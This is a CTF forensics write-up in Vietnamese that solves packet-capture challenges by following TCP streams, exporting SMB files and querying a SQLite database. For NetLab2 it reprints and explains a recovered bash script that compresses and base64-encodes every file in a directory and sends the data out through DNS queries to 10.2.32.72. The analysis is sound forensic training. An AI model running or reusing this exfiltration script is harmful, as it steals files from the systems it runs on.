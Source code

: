 # Forensic 

## Netlab Warmup

![image](https://hackmd.io/_uploads/rJdr59eRT.png)

- Follow TCP thấy người dùng tải xuống file flag.txt

![image](https://hackmd.io/_uploads/BkoX5qxAT.png)

![image](https://hackmd.io/_uploads/BkT7i9gRp.png)


![image](https://hackmd.io/_uploads/S1Ogi9gCa.png)

- Rot13 để lấy flag

![image](https://hackmd.io/_uploads/HkPg35lAp.png)


## NetLab1: Sharing
- Đầu tiên mình chọn File->Export Object ->SMB thì có 2 file là netlab1.7z và password.txt

![image](https://hackmd.io/_uploads/SJvC-EbCa.png)

- Trong danh sách trên có 2 file nghi vấn là password.txt và netlab1.7z. Thực hiện tải 2 file về và mở file.

nội dung file password **SMBprotocol**
 - dùng password trong file password để unzip cái file netlab đó thì thu được file netlab1.db

db có table flag và đây là CSDL SQLite

![image](https://hackmd.io/_uploads/Bynlr4WAa.png)

Sau đó truy vấn sqlite trong bảng flag  mình tìm được dòng chữ flag trong cột BillingCity 

![image](https://hackmd.io/_uploads/H11i8EZAa.png)

hoặc mình có thể dùng https://inloop.github.io/sqlite-viewer/ để query database online

![image](https://hackmd.io/_uploads/B1Fat4bRT.png)

## NetLab2: Protected Vault

- mở phân tích gói tin mình được 

![image](https://hackmd.io/_uploads/SJkK2VbA6.png)

thấy TCP bị Warning mình follow TCP và được 

![image](https://hackmd.io/_uploads/H1Vn2VbRT.png)

- người dùng đã gửi HTTP request GET đến ```/update.sh```

![image](https://hackmd.io/_uploads/HyL_TE-0T.png)


![image](https://hackmd.io/_uploads/Sy_FaEZAT.png)

- và server trả về nội dung file update.sh

```bash!
for f in $(ls .); do
    s=4
    b=50
    c=0
    for r in $(
        for i in $(gzip -c $f | base64 -w0 | sed "s/.\{$b\}/&\n/g"); do
            if [[ "$c" -lt "$s" ]]; then
                echo -ne "$i-."
                c=$(($c+1))
            else
                echo -ne "\n$i-."
                c=1
            fi
        done
    ); do
        dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f | base58) | tr "+" "}" | tr "/" "{"` +short
    done
done
```

- Vòng lặp for đầu tiên lặp qua tất cả các tệp trong thư mục hiện tại bằng cách sử dụng lệnh ls .. Mỗi tệp được lặp qua được gán cho biến f.
- Đặt các giá trị ban đầu cho các biến: s=4, b=50, c=0.
- Vòng lặp lồng nhau thứ hai thực hiện các bước sau:

    1. Sử dụng lệnh gzip -c $f để nén tệp f, sau đó sử dụng base64 -w0 để mã hóa nén này thành chuỗi base64 không ngắt dòng.
    2. Sử dụng sed để chia chuỗi base64 thành các phần có độ dài bằng b (50) ký tự. Mỗi phần được in trên một dòng.
    3. Trong vòng lặp này, mỗi phần được in ra với một dấu gạch ngang cuối dòng. Nếu số lượng dấu gạch ngang cuối dòng là ít hơn s (4), một dấu gạch ngang mới sẽ được thêm vào. Nếu không, một dòng mới sẽ được bắt đầu.

- Đoạn mã bên trong vòng lặp lồng nhau thực hiện các bước sau:
 Sử dụng lệnh dig để thực hiện một truy vấn DNS đến máy chủ DNS ở địa chỉ IP 10.2.32.72. Chuỗi truy vấn được tạo bằng cách thêm một phần của chuỗi base64 đã được chia nhỏ vào tên tệp (f) sau đó mã hóa tên tệp bằng base58. Trong quá trình này, ký tự "+" được thay thế bằng "}", và ký tự "/" được thay thế bằng "{".



thấy gói tin DNS xuất hiện khá nhiều và có thông tin lạ như bị mã hóa như chúng ta đã phân tích 

![image](https://hackmd.io/_uploads/S1jyJB-06.png)

vậy  nội dung từ các file trong hệ thống đã được mã hóa và chuyền tin thông qua DNS